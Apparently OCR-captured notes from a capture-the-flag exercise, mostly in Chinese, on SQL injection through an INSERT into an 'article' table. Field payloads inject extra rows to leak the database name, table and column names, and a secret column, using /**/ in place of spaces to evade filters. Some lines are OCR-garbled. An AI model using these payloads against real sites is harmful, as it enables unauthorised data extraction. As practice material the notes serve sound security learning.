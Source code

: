 

```
insert into article values('1','1','1','1')

直接上传两次数据，

insert into article values('1','1','1','1')('1','database()','xbw'),('1' ,(select group_ concat(table_ name) from information. schema.tables where table_ schema=database)

'1 ,(select group_ concat(XremarkX4354) from users1),' 1

insert into article values('1','2','3',4')

insert into article values('1','2','1','4'),('3',database(),'1',4')
爆库名
id:1
标题:2
内容:1','4'),('3',database(),'1
name:3


爆表
id:   1
标题：2
内容：3','4'),('1',(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='2web'),'3
name：4


爆列
id:1
标题：2',(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='users1'),'4'),('1','2
内容：3
name：4

爆字段
id:   1
标题：2
内容：3','4'),('1',(select/**/group_concat(XremarkX4354)/**/from/**/2web.users1),'3
name：4

```

insert into article values('1','2','**1','4'),('3',database(),'1**',4')
爆库名
id:1
标题:2
内容:1','4'),('3',database(),'1
name:3

insert into article values('1','2','3',4')
